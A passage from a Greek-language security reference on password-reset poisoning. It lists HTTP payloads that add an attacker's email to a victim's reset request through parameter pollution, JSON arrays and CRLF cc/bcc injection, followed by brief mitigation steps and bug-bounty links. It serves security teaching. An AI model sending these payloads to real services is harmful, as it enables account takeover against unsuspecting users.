 * Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας &
```php
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
* Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας %20
```php
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
* Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας |
```php
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
* Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας cc
```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
* Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας bcc
```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
* Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας ,
```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
* Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο στο json array
```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```
* **Βήματα Μείωσης**:
* Κατάλληλη ανάλυση και επικύρωση παραμέτρων email από τον διακομιστή.
* Χρήση προετοιμασμένων δηλώσεων ή παραμετροποιημένων ερωτημάτων για την αποφυγή επιθέσεων έγχυσης.
* **Αναφορές**:
* [https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be](https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be)
* [https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/](https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/)
* [https://twitter.com/HusseiN98D/status/1254888748216655872](https://twitter.com/HusseiN98D/status/1254888748216655872)
